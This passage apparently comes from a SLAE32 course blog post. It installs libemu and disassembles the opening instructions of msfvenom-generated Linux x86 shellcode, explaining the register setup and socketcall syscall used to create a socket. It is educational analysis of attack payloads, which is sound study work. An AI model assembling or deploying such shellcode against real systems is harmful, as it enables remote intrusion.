 {% highlight console %}
# install the require package
kecebong@ubuntu:~$ sudo apt-get install git autoconf libtool

# clone the libemu
kecebong@ubuntu:~$ git clone https://github.com/buffer/libemu

# configure and install
kecebong@ubuntu:~$ autoreconf -v -i
kecebong@ubuntu:~$ ./configure --prefix=/opt/libemu
kecebong@ubuntu:~$ sudo make install
{% endhighlight %}

After the `libemu` installed, let's start to analyze the shellcode.

The shellcode start with zeroing the `ebx` and `eax` registers.

{% highlight nasm %}
00000000  31DB              xor ebx,ebx      ; ebx = 0x0
00000002  F7E3              mul ebx          ; eax = 0x0
{% endhighlight %}  

and then continue with `socketcall()` syscall, which will creating the socket.

{% highlight nasm %}
00000004  53                push ebx         ; 0x0
00000005  43                inc ebx     
00000006  53                push ebx         ; ebx = 0x1 
00000007  6A02              push byte +0x2   ; 0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66      ; eax = 0x66
0000000D  CD80              int 0x80
{% endhighlight %}

to get the syscall number:

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/msfvenom$ python3 -c "print(int(0x66))"
102
kecebong@ubuntu:~/slae32/assigment/msfvenom$ grep 102 /usr/include/i386-linux-gnu/asm/unistd_32.h
#define __NR_socketcall         102
{% endhighlight %}

The `socketcall()` syscall need the following registers:

- EAX : socketcall (0x66)
- EBX : SYS_SOCKET (0x01)
- ECX : (AF_INET, SOCK_STREAM, 0)
  - AF_INET : 0x02
  - SOCK_STREAM : 0x01
  - protocol : 0x00
